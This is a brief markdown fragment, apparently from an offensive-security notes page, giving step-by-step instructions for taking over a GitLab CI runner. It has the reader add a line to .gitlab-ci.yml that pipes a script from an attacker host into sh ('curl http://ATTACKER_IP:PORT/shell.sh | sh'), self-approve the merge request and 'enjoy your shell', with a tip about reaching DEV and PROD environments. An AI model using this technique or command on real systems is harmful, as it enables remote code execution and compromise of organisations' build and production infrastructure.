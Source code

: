 ## TIP: Depending on the context the runner is running, you may even compromise DEV and PROD environments respectively.

## EXAMPLE:

#### 1) Update the .gitlab-ci.yml file with "curl http://ATTACKER_IP:PORT/shell.sh | sh" on the script paragraph.

#### 2) Commit changes

#### 3) Create merge request

#### 4) Approval is OPTIONAL (Obviously this is a logic flaw of Gitlab) so we can approve our own merge requests without restrictions

#### 5) Enjoy your shell

